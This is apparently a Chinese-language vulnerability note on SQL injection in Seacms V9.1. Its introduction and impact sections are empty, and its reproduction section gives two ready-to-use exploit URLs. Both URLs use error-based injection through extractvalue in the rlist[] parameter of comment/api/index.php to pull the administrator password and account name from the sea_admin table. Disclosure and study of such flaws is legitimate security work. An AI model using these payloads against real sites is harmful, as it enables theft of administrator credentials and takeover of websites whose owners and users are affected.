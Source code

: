 Seacms V9.1 版本SQL注入
=======================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

获取管理员表中第一个用户的密码

    http://0-sec.org/comment/api/index.php?gid=1&page=2&rlist[]=@`%27`,%20extractvalue(1,%20concat_ws(0x20,%200x5c,(select%20(password)from%20sea_admin))),@`%27`

获取管理员表中第一个用户的账号

    http://0-sec.org/comment/api/index.php?gid=1&page=2&rlist[]=@`%27`,%20extractvalue(1,%20concat_ws(0x20,%200x5c,(select%20(name)from%20sea_admin))),@`%27
